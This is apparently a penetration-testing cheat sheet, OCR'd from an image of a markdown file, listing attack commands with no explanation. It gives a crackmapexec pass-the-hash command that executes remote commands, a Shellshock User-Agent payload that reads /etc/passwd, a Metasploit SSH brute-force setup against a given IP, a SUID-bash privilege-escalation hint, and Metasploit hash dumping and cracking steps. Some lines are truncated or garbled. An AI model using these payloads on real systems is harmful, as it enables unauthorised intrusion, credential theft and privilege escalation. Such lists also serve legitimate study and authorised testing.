 ```
crackmapexec smb IP -u Username -H "NTLMHASH" -x "commands"


```

## SHELLSHOCK
```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'


```


## SSH LOGIN
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.245.211.3
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploi
```



## SUID 
```
add /bin/bash to set UID
```


# Password Cracking
```
msfconsole
use post/linux/gather/hashdump
set SESSION 1
exploit

crack Password 
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

















